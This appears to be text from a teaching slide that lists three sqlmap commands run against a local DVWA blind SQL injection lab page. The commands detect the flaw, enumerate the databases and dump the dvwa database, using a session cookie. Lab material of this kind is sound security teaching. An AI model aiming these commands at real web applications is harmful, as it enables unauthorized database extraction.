

# More sqlmap commands
Shows the vulnerability
python3 sqlmap.py -u "http://localhost:80/DVWA/vulnerabilities/sqli_blind/"  --data="id=2&Submit=Submit" --cookie="PHPSESSID=rrop8vr2of95d1ofdid5oji2tu;security=impossible"  | tee dvwa_sqlmap_impossible.txt

Shows the databases
python3 sqlmap.py -u "http://localhost:80/DVWA/vulnerabilities/sqli_blind/"  --data="id=2&Submit=Submit" --cookie="PHPSESSID=rrop8vr2of95d1ofdid5oji2tu;security=impossible" --dbs | tee dvwa_sqlmap_impossible.txt

Dumps the data for the database
python3 sqlmap.py -u "http://localhost:80/DVWA/vulnerabilities/sqli_blind/"  --data="id=2&Submit=Submit" --cookie="PHPSESSID=rrop8vr2of95d1ofdid5oji2tu;security=impossible" -D dvwa --dump | tee dvwa_sqlmap_impossible.txt